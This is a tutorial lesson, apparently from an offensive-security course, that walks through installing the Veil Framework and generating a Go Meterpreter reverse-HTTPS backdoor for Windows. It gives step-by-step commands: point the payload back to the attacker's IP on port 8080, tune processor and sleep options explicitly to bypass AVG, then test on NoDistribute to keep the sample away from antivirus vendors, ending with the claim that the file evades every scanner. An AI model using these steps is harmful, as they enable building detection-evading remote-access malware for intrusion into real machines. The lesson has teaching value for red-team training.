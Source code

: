 # Access to operating systems

# Client side

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Installing & Running Veil
2. Payloads overview
3. Generating a Veil backdoor
4. Listening for connection 

## Installing & Running Veil

First things we want to run Kali and Window 10,  we will use **Veil - Framework**.

We can use it by following this steps:

1. Go to the terminal and write, `rm -rf /root/.config/wine/vei` 
2. In the terminal write cd `cd /usr/share/veil/config`
3. Then write `./setup.py --force --silent`
4. Finally, `cd ..` and write `./Veil.py`

![Veil1](/img/Veil1.png)


What is Veil?

The Veil Framework is a collection of tools designed for use during offensive security testing. When the time calls for it, Mandiant’s Red Team will use the Veil-Framework to help achieve their objective.  The most commonly used tool is Veil-Evasion, which can turn an arbitrary script or piece of shell code into a Windows executable that will evade detections by common antivirus products.

The `list` command displays Veil's main commands, which are as follows:

1. **Evasion**: This generates undetectable backdoors.
2. **Ordnance**: This generates the payloads used by Evasion; this is more of a
secondary tool.

## Payloads overview

Let's use **Evasion** by typing `use 1` 

![Veil2](/img/Veil2.png)

As we can see Veil gives a list of commands that can run on this tool, let's write `list` to give us all available payloads 

![Veil3](/img/Veil3.png)

The first part of the payload's name is `cs`, which refers to the programming
language the payload will be wrapped in. As you can see in the preceding
screenshot, languages used include GO, C, CS, Python, PowerShell, and Ruby.

The second part of any payload is really important, as this is the type of payload;
in other words, the type of code that's going to be executed on the target
computer.

we will use `15) go/meterpreter/rev_https.py` 

In this example, we're using Meterpreter, which is a payload designed by Metasploit.

### What is Meterpreter?
Meterpreter is an advanced, dynamically extensible payload that uses _in-memory_ DLL injection stagers and is extended over the network at runtime. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.

The third part of a payload's name is the method that's going to be used to
establish its connection. In our example, that's rev_https. rev, which stands for
reverse, and https is the protocol that will be used to establish the connection.
There are also a few examples of rev_tcp in the preceding screenshot, which
creates a reverse TCP connection.

## Generating a Veil backdoor

Now we are going to use Veil to generate a backdoor. First, we will run `use 15` to use `15) go/meterpreter/rev_https.py`

![Veil4](/img/Veil4.png)

we will use steps:
1. we want to set `LHOST`  our IP address 

		set LHOST [your kali IP]

2. we want to change the `LPORT` to be `8080`

		set LPORT 8080

3. To ensure our backdoor can bypass AVG, we need to modify the minimum
number of `processors` used by it—in this case, 1. To do this, use the following
command:
		
		set PROCESSORS 1
4. We will also modify the `SLEEP` option, which is the number of seconds a backdoor will wait before it executes the payload. To tell your backdoor to wait 6 seconds, use the following command:

		set SLEEP 6

5. We are now going to generate the backdoor using the `generate` command.

![Veil5](/img/Veil5.png)

We now need to name our backdoor. Here, we're going to name it `rev_https_8080.`

To test our backdoor, we're going to bypass Veil's checkvt command, which is not always accurate, and VirusTotal, which shares its results with antivirus software, and instead opt for the website [NoDistribute](https://nodistribute.com)

![Veil6](/img/Veil6.png)

Once we have clicked Scan File, or View Previous Results, we can see that the
file we uploaded has successfully bypassed all antivirus programs

![Veil6](/img/Veil7.png)
